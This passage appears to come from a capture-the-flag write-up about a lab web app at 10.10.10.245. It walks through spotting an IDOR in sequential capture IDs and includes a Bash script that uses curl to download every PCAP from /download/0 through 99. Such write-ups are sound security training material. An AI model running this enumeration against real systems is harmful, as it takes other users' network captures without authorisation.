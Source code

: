The `/netstat` page shows the output of what looks like the `netstat` Linux command.

#### Under the hood

If we check the previous requests using Burp Suite, we notice that when we
request the `/capture` page, there's a 5 seconds delay before being redirected
to `/data/1`.

On this web page, if we ask to download the PCAP file, we send a GET request
to `/download/1`.

#### IDOR

When we initiate a request for the network sniffing capture, it's assigned a
unique number. This assigned number is subsequently utilized for downloading the
corresponding PCAP file.

Upon making successive requests, it becomes apparent that the assigned number is
incremented by one every time.

There's likely an IDOR here, which would allow us to download previous captures!

#### Downloading previous captures

Let's use a Bash script to request all captures from number `0` to `99`.

```sh
#!/bin/bash

# Define the target URL
url="http://10.10.10.245/download/"

# Specify the output directory
output_directory="/workspace/pcaps/"

# Create the directory if it doesn't exist
mkdir -p "$output_directory"

# Loop through numbers 0 to 99
for number in {0..99}
do
    # Use curl to check if the URL returns HTTP status code 404
    http_status=$(curl -s -o "/dev/null" -w "%{http_code}" "$url${number}")

    # Check if the HTTP status code is 404 (Not Found)
    if [ "$http_status" -ne 404 ]; then
        # Download the corresponding PCAP file only if not a 404 response
        curl -s -o "${output_directory}${number}.pcap" "$url${number}"
    else
        break
    fi
done
```

I'll save it as `capture_downloader.sh`, and I'll make it executable.
